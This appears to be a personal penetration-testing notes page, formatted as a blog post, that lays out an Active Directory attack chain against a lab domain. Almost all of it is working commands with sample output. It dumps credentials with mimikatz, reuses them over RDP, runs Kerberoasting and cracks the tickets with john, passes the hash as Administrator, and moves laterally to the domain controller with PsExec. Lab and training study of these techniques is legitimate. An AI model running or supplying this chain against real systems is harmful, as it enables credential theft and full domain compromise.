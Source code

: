```yaml
---
layout: post
title:  "ad - general"
date:   2022-01-01
categories: windows
---
```



# ad - scenario 1

- run mimikatz

```bash
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

    kerberos :
         * Username : admin
         * Domain   : example.local
         * Password : easypass123
```

- connect using xfreerdp

```bash
xfreerdp /v:10.10.10.10 /u:admin /p:easypass123 /d:example.local  /dynamic-resolution +toggle-fullscreen
```

- upload and running rerberoast using powershell

```bash
Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

- crack the collected tickets

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast                         

hardpass!         (omni_admin)
```


- login as omni_admin

```bash
xfreerdp /v:10.10.10.10 /u:omni_admin /p:'hardpass!' /d:example.local /drive:share,/home/kali/Desktop  /dynamic-resolution +toggle-fullscreen
```


## collect more hashes using mimikatz.exe

```bash
mimikatz.exe
privilege::debug
token::elevate
sekurlsa:logonpasswords

* Username : Administrator
         * Domain   : paragraph1
         * NTLM     : <ntml>
```

## overpass the hash


```bash
mimikatz.exe
privilege::debug
token::elevate
sekurlsa::pth /user:Administrator /domain:example.local /ntlm:<ntml> /run:PowerShell.exe
```

## psexec dc lateral movement

```
.\PsExec64.exe \\dc cmd.exe
```